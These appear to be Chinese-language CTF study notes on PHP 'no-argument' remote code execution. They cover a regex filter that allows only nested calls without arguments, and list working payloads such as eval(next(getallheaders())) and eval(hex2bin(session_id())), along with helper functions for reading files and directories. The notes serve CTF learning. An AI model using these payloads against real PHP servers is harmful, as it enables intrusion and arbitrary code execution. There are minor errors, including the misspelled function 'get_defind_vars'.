 # 原理
	- 情景
		- 某些题目会使用类似`/[^\W]+\((?R)?\)/`的正则表达式匹配并删除某个字符串中的内容，如果替换结果为`;`则执行原字符串
		- 也就是说，我们可以传入一个类似`aaa(bbb(ccc()));`的字符串并eval
		- 此时我们可以构造特殊的payload进行RCE
	- 比如
		- `pos(localeconv())`的结果是字符串`"."`
		- `var_dump(scandir("."));`可以打印当前文件夹中的内容
		- 我们就可以使用`var_dump(scandir(pos(localeconv())));`通过那个正则的检测并打印当前文件夹的内容
	- RCE
		- 首先想想如何构造任意字符串
			- 可以从headers中拿到：`next(getallheaders())`
				- 这样可以拿到最后一个header字段
				- 如果你想拼运气的话，可以使用array_rand随机拿一个header字段
			- 可以考虑拿GET/POST参数
		- 然后传给system函数即可
- # 常用函数
	- ```
	  scandir 
	  var_dump 
	  show_source 
	  localtime 
	  time 
	  current 
	  chr 
	  pos 
	  end 
	  next 
	  prev 
	  array_reverse 
	  readfile
	  array_flip
	  array_rand
	  array_reverse
	  file_get_contents
	  ```
- # 常见payload
	- ```
	  点
	  pos(localeconv())
	  next(str_split(zend_version()))
	  1
	  end(str_split(hebrevc(crypt(next(hash_algos())))))
	  
	  chr(ord(crypt(serialize(array()))))
	  
	  Ua
	  next(getallheaders())
	  
	  eval
	  eval(implode(reset(get_defind_vars())))
	  eval(next(getallheaders()))
	  eval(hex2bin(session_id())) # 其中session_id由PHPSESSID cookie控制
	  ```
- # 绕过
	- 如果正则支持函数名使用任意字符的话，可以使用PHP的动态函数调用技巧
	- 参考： [[CTF/WP/极客大挑战 2020 Roamphp4-Rceme]]
- # 其他知识点
	- ```
	  readfile()[readgzfile()]
	  读取文件并写入到输出缓冲。
	  highlight_file()[别名：show_source()]
	  语法高亮一个文件
	  scandir()
	  列出指定路径中的文件和目录
	  direname()
	  给出一个包含有指向一个文件的全路径的字符串，本函数返回去掉文件名后的目录名。
	  2/19
	  getcwd()
	  取得当前工作目录。
	  chdir($directory)
	  将 PHP 的当前目录改为 directory。
	  读取环境变量
	  get_defined_vars()
	  此函数返回一个包含所有已定义变量列表的多维数组，这些变量包括环境变量、服务器变量和用户定义
	  的变量。
	  getenv
	  获取一个环境变量的值
	  localeconv()
	  返回一包含本地数字及货币格式信息的数组,第一个值一直是.
	  phpversion()
	  获取当前的 PHP 版本
	  zend_version()
	  获取当前的 zend 版本（配合 str_split()割出点）
	  会话
	  session_id
	  获取/设置当前会话 ID
	  session_start
	  启动新会话或者重用现有会话
	  ```
-
